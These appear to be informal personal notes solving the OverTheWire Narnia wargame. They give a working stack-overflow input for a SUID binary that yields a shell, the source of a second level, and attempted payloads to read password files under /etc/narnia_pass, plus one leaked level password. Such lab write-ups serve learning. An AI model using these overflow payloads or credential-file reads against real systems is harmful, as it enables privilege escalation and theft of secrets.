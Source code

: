 # Narnia
### basic game info
```
levels: narnia0 narnia1...
narnia.labs.overthewire.org on port 2226

passwords at:
/etc/narnia_pass/
```
### level 1
#### attempts
1. looked for suspicious ports
2. cat the narnia1 password.
3. `You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.`
   meaning there is a source code inside this machine lets find it... <br>
when running `find . | grep narnia`, you I found narnia0.c and its executable! <br>

the program is a simple buffer overflow the given buffer is 20 bytes and 
after that there is the target value. if you sucessfully overflow you get a shell.<br>
`setreuid(geteuid() geteuid())`, sets a real and effective user IDs of the calling process.<br>
The calling process will be the next level, because you can a SUID flag on the executable.

#### buffer overflow attempts
given a buff[20] and a value before it. the stack would look like this.<br>
| var      | high memory addr<br>
| buff[20] | low memory addr<br>

The program input 24 chars of string into buff, which is already a buffer overflow.

1. tried to enter `20*a+0xdeadbeef` <br> 
    val = edx0<br>
    buff = aaaaaaaaaaaaaaaaaaaa0xde<br>
    those there are the reverse of each other<br>
    target val = 0xdeadbeef = 3735928559<br>

    the input deadbeef should be reversed and without `0x`<br>
    this method worked partly, var = hex(beef) we need to eneter beef as hex reversed<br>
    `0xf0xe0xe0xb0xd0xa0xe0xd`
    
## solution
#### steps
- from the first input `20*a+0xdeadbeef`, we can infer three things:<br>
  1. the input only scan 4 more bytes
  2. the output is reversed meaning the order is little indian
  3. 0x would not help use get values as hex values
- now deadbeef would be in little indian every byte at the end goes to the start
- efbeadde in hex. in the bash shell hex can be represent by \x.
- `aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde`
- lastly in order to stay inside the shell we need to run a command inside the new shell
- `(echo -e "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde"; cat;) | ./narnia0` this is called command group.



## Level 2
```C
#include <stdio.h>

int main()
{
    int (*ret)();

    if(getenv("EGG")==NULL)
    {
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
### anlays
- getenv() - gets the value of the given global variable<br>
  they use getenv() instead of secure_getenv(), to enable not only the creator of this exe to enter environment variable.
- to set environment variables in linux, `EGG="test"`, `export` keywoard would make the variable scope inside all derive process.
- we can only pass a function that returns integer and doesn't get parameters and is built in the stdio.h library.<br>
  tested system and printf functions but the function throws segmentation fault.
- 
### Attemps
- add a `export EGG="system(\"bin/sh\")"`, didn't work. The idea is to pass that will run the command `cat /etc/narnia_pass/narnia2`
- use bash functions, `export EGG="expliot(){cat /etc/narnia_pass/narnia2}"`, no luck...
- use c functions, the problem is that we need to create a function declaration a line before.
  ```C
  int main() 
  {
    int (*ret)();
    
    int test() { printf("s"); } 

    ret = test;
    ret();
    return 0;
  }
  ```
- 
### Passwords
level
- 0 -> `efeidiedae` : no time + help


## Buffer overflow


## Terms
- real uid: the user ID
- effective uid: id can give the current user root privilage, with files.
- saved uid: id to lower your privilage inside a process.

